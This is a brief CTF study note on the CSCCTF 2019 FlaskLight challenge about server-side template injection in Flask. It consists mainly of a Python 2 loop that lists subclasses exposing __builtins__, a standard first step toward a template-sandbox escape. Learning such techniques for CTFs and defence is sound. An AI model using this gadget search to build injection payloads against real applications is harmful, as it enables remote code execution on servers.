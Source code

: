 参见 [[[CSCCTF 2019 Qual]FlaskLight]]

```python
num = 0
for item in ''.__class__.__mro__[2].__subclasses__():
	try:
		if '__builtins__' in item.__init__.__globals__:
			print num,item
		num+=1
	except:
		num+=1
```

#Web #python #SSTI 